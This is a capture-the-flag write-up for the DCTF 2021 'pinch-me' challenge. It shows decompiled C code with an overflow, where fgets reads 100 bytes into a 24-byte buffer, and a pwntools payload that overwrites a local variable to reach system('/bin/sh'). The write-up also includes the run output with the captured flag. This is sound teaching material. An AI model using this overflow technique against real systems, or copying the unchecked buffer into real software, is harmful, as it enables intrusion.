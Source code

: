 


The *vuln* function would spawn a shell if *local_10 == 0x1337c0de*. 

```c
void vuln(void)
{
  char local_28 [24];
  int local_10;
  int local_c;
  
  local_c = 0x1234567;
  local_10 = -0x76543211;
  puts("Is this a real life, or is it just a fanta sea?");
  puts("Am I dreaming?");
  fgets(local_28,100,stdin);
  if (local_10 == 0x1337c0de) {
    system("/bin/sh");
  }
  else {
    if (local_c == 0x1234567) {
      puts("Pinch me!");
    }
    else {
      puts("Pinch me harder!");
    }
  }
  return;
}

```

*local_10* located right after user input array, to call vuln with *local_10* set to *0x1337c0de*, needed to fill the array and append *0x1337c0de* to it, so *local_10* would be overwritten with *0x1337c0de*. Check out [here](https://github.com/onealmond/hacking-lab/blob/master/dctf-2021/pinch-me/exploit.py) for full source code.

```python
payload = b"A"*24
payload += pwn.p64(0x1337c0de)

print(payload, len(payload))
pr.sendafter("dreaming?\n", payload)
pr.sendline()
pr.sendline('cat flag.txt')
print(pr.readall(2))
```

*cat flag.txt* once pwned.

```bash
$ python3 exploit.py 
[+] Opening connection to dctf1-chall-pinch-me.westeurope.azurecontainer.io on port 7480: Done
b'AAAAAAAAAAAAAAAAAAAAAAAA\xde\xc07\x13\x00\x00\x00\x00' 32
[+] Receiving all data: Done (37B)
[*] Closed connection to dctf1-chall-pinch-me.westeurope.azurecontainer.io port 7480
b'dctf{y0u_kn0w_wh4t_15_h4pp3n1ng_b75?}'
```
